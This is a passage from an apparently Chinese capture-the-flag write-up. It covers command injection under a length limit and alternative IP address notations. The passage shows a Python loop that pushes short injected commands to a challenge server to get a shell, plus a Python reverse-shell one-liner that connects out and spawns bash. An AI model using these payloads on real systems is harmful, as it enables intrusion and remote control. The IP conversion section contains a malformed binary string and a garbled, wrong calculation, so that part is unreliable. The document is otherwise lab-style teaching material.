 ```python

    # got shell
    'sh x', 
    'sh g', 
]



for i in payload:
    assert len(i) <= 4
    r = requests.get('http://03a6063d-e2c5-4882-a24f-af846194db49.node5.hackingfor.fun/1b5337d0c8ad813197b506146d8d503d/?len=7&nep=`' + quote(i)+'`;' )
    print i
    sleep(0.1)
```



另： 还可利用`wget`,反弹shell也可利用`python`,

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

## IP 表示

IP地址本质上就是一个整数，只是通常用点分十进制表示。

在我们需要的时候，我们依然可以使用十六进制、十进制、八进制表示IP。

![d0rocD.png](https://s1.ax1x.com/2020/08/23/d0rocD.png)

#### 原理

根据 TCP/IP 协议，ip地址是以二进制来表示。目前广泛使用的 IPv4 中规定的OP地址长度为32bit,为方便使用，将二进制IP地址转换为四个个十进制数并用点号分割，也就是点分十进制。

#### 转换过程

* 整数型

例如将IP (127.0.0.1) 的二进制`1111111000000000000000000000001`转换成十进制为`2130706433`.
另一种换算方法：127 × 256^3 + 0 × 0^2 + 1 × 256 + 1 = 3232235778.(注：点分十进制IP转二进制时，四个十进制数字转二进制不足8位的用0补足8位)

```
D:\>ping 2130706433

正在 Ping 127.0.0.1 具有 32 字节的数据:
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=128
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=128
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=128
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=128

127.0.0.1 的 Ping 统计信息:
    数据包: 已发送 = 4，已接收 = 4，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms
```
